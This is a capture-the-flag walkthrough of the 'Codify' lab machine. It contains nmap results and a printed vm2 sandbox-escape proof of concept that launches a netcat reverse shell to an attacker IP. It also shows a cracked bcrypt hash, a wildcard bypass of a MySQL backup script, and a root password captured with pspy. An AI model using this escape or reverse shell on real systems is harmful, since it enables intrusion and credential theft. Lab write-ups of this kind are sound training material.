



PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_ 256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open http Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://codify.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
3000/tcp open http Node.js Express framework
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Codify
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
The website allows us to enter javascript code and test it in the webpage
The contact page shows us the webpage uses vm2 3.9.16
We find a POC from https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c
using this JS code we can get a shell as svc
const {VM} = require("vm2");
const vm = new VM();
const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
new Error().stack;
stack();
}
try {
stack();
} catch (a$tmpname) {
a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.6 9999 >/tmp/f');
}
`
console.log(vm.run(code));
Linpeas output
/etc/apache2/sites-enabled
╔══════════╣ Analyzing Other Interesting Files (limit 70)
-rw-r--r-- 1 root root 3771 Jan 6 2022 /etc/skel/.bashrc
-rw-r--r-- 1 svc svc 3771 Sep 12 17:10 /home/svc/.bashrc
We find a hash for joshua
/var/www/contact$ cat tickets.db
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
hash cracks to spongebob1

Running the script requires the mysql password which I couldnt find anywhere.
Turns out we can bypass the password using the wildcard *
Which runs the script but I still cant access the backups.
Running the script with pspy running in the background we can capture the root password. This didnt work for the longest time, i had to cancel the script while it was in the middle of running and it finally worked.

/usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES;
root password is after the -p
kljh12k3jhaskjh12kjh3
